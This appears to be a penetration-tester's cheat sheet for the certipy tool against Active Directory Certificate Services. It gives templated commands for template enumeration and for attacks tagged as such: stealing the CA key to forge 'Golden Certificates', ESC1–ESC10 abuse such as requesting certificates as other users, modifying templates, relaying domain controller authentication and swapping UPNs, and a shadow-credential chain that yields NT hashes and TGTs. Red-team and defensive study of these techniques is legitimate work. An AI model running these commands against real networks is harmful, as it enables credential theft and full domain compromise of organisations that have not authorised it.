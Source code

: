 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential
#plateform/linux #target/remote #cat/AD/RECON

## enum -  list enabled certificate templates 
```
certipy find -enabled  -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
add CA to /etc/hosts
```
certipy find -enabled -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> -ns <dc-ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
```
certipy find -vulnerable -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> [-stdout]
```

## enum - list vulnerable certificate templates (socks)
add CA to /etc/hosts
```
certipy find -vulnerable -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> -ns <dc-ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certipy find -enabled  -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> -ns <dc-ip> -dns-tcp  -old-bloodhound
```

## request certificate
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## extract key from pfx
```
certipy cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## certipy - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file>  -domain <domain> -username <user> -dc-ip <ip>
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>  -dc-ip <dc-ip> -target-ip  <dc-ip> -target <dc-ip> -dns-tcp
```